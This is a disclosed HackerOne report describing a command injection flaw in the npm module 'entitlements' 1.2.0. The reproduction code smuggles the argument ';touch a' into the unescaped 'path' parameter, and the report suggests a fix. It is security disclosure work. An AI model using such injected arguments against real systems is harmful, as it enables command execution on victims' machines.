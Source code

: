 # [entitlements] Command injection on the 'path' parameter

## Report Details
- **Report ID**: 341869
- **URL**: https://hackerone.com/reports/341869
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-04-22T22:32:14.171Z
- **Disclosed**: 2018-07-18T09:18:12.595Z

## Reporter
- **Username**: caioluders
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hello again, another command injection, this time on the `entitlements` module.

# Module

**module name:** entitlements
**version:** 1.2.0
**npm page:** https://www.npmjs.com/package/entitlements

## Module Description

> check the entitlements of a .app bundle

## Module Stats

26 downloads in the last day
328 downloads in the last week
896 downloads in the last month
14783 downloads in the last year

# Vulnerability

## Vulnerability Description

The module appends the `path` parameter to a command on the line [7](https://github.com/matiassingers/entitlements/blob/master/index.js#L7) without escaping it, leading to a command injection.

## Steps To Reproduce:

* Install the module

```
$ npm install entitlements
```

* Example code with the malicious payload ";touch a" on line 3.

```javascript
var entitlements = require('entitlements');

entitlements(';touch a', function(error, data){
  console.log(data);
});
```

* Run it.

```
$ node index.js
```

* Check the newly create file a

```
$ ls
a       index.js
```

## Patch

It is advisable to use a module that explicitly isolates the parameters to the `codesign` command.

## Supporting Material/References:

*  macOS Sierra 10.12.16
* NODEJS v8.4.0
*  NPM 5.3.0

# Wrap up

**( contacted the maintainer || opened issue ) = False**

## Impact

An attacker that controls the `path` parameter can inject commands on the victim's machine.

## Attachments
No attachments
